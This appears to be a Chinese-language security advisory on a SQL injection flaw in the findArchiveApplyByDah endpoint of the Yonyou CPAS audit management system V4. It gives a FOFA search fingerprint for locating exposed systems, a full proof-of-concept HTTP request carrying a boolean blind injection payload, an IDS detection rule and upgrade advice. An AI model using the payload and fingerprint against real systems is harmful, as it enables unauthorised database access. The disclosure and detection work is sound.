

# 用友-友数聚科技CPAS审计管理系统V4 findArchiveApplyByDah存在SQL注入漏洞

用友-友数聚科技CPAS审计管理系统V4 findArchiveApplyByDah存在SQL注入漏洞

# 影响版本

用友-友数聚科技CPAS审计管理系统V4

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   **body=&quot;/cpasm4/static/cap/font/iconfont.css&quot;**

**POC/EXP：**

**step1**  sql注入

```
POST /cpasm4/cpasList/findArchiveApplyByDah HTTP/1.1
Host: 127.0.0.1
Content-Length: 53
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/plain, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

dah=adm' OR NOT 6257=6256 AND 'ScmM'='ScmM
```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"用友友数聚CPAS - findArchiveApplyByDah dah SQL注入漏洞 (布尔盲注)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/cpasm4/cpasList/findArchiveApplyByDah";
        fast_pattern;
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"dah="; nocase;
        content:"'"; distance:0; within:20;
        content:"OR"; nocase; distance:0; within:20;
        content:"NOT"; nocase; distance:0; within:20;
        content:"AND"; nocase; distance:0; within:100;
    metadata:
        service http,
        affected_product "用友友数聚CPAS审计管理系统",
        affected_version "V4",
        vulnerability_type "SQL Injection (Boolean-based blind)",
        severity "high";
    classtype:web-application-attack;
    sid:1000843;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
